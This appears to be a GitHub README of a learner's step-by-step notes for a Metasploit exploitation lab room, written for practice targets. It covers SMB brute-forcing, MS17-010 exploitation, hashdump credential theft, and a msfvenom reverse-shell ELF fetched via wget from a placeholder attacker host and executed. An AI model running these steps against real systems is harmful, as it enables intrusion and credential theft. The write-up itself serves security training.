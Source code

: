 # Activity performed as part of Metasploit: Exploitation

- **Pre-requisite** :
1. Download the wordlist file provided in the Room if you are using your own system.
2. Start both the target VM and Attack Machine.

- **Scanning** :
1. Search for portscan modules using the command:"search portscan". Use the approriate portscan option using the use command: use <result_no>.(Used auxiliary(scanner/portscan/tcp))
2. Check available options which can provide necessary parameter that need to be added to perform the portscan. command:"show options". Set necessary parameters using the set/setg options.
3. Use the run command to perform the port scan. Provides the number of open port with range of 1-10000 which are running tcp services.
4. Run the nmap scan to perform service scan. using the command:"nmap -sV -vv <Target_IP>"
5. In order to check the netBIOS name use the hint provided in the room get the module that needs to be used.(Used module: auxiliary(scanner/netbios/nbname))
6. Use the show options command to check the necessary parameters and set them using set/setg.
7. Use the run command to perform scanning using the nbname module.
8. Use the hint to check which module needs to used as part of the smb service.(Used module: auxiliary(scanner/smb/smb_login))
9. Use the show options module and set few parameters namely the SMB_USER, PASS_FILE. SMB_USER is the user mentioned in the question, PASS_FILE is the wordlist file mentioned in earlier section.
10. Use set command to set the parameter and run the module. The module executed the login process on sequential basis to find the password form the wordlist.

- **The Metasploit Database** : 
1. As this is an example workflow users should not encounter major issues.
2. Create a workspace using the command: "workspace -a <Workspace_Name>".
3. Change to workspace newly created using the command: "workspace <Workspace_Name>"
4. Check if the metasploit framework is configured with DB storage, command: "db_status"
5. Check workspace help command: "workspace -h"
6. Run help command to checkout the capabilities of the Metasploit framework.
7. Run the db_nmap command to save the result of the nmap scan to db. command: "db_nmap -sV -p- <Target_IP>".
8. To check if the results are stored use the hosts and services command to see the different hosts and services that were recorded.
9. We will use the vulnerability scanning module that finds potential MS17-010 vulnerabilities with the use auxiliary/scanner/smb/smb_ms17_010 command.
10. We set the RHOSTS value using hosts -R.
11. We have typed show options to check if all values were assigned correctly. (In this example, 10.10.138.32 is the IP address we have scanned earlier using the db_nmap command)
12. Once all parameters are set, we launch the exploit using the run or exploit command. 

Note: Try the SMB_LOGIN module 

- **Vulnerability Scanning** :
1. Search the smtp modules available. command: "search <Term>"
2. Check the result and fine the open relay using module. Use the use command and navigate to the module. command: "use <result_no>"
3. Using the info command to further get additional details on the module. command:"info".

- **Exploitation** :
1. Using the exploit module for the traget machine. As known to us its vulnerable to ms17_010.
2. To exploit set parameters mentioned for the module and get the reverse shell session.
3. Check the current working directory using pwd on the meterpreter terminal.
4. To get the flag file location using the search command. command:"search <filename>"
5. To view the file navigate to the location using cd command and view the file using the cat command.
6. To get the NTLM has of the specific user we can use the command: "hashdump" to get the hashdump of all the users. Output representation is as follows "username:RID:LM hash:NT hash:::"


- **Msfvenom** :
1. Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.
2. Create a meterpreter payload in the .elf format. command:"msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Attacker> LPORT=<XXXX> -f elf > shell.elf". Here the LPORT can be the default port 4444
3. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine). As the Target has lesser permissions use sudo additionally to get the file.
4. Use the module multi/handler. Set the parameters which are shown on using show options command. Also remember to set payload as linux/x86/meterpreter/reverse_tcp as the default payload is different.
5. Run the module and then run the shell.elf file on the target.
6. Attacker should get the session the metasploit.
7. Use the session to navigate through file system. To make the session as background process use Ctrl+Z.
8. Use the module:"post/linux/gather/hashdump", to get the hashdump of other user on the target system.
9. Use the session again to navigate to file shadow to get the hashes of other users.

Note: While executing the shell.elf make sure you are the root user(use command: sudo su on the target). If not you might have to escalate previleges.

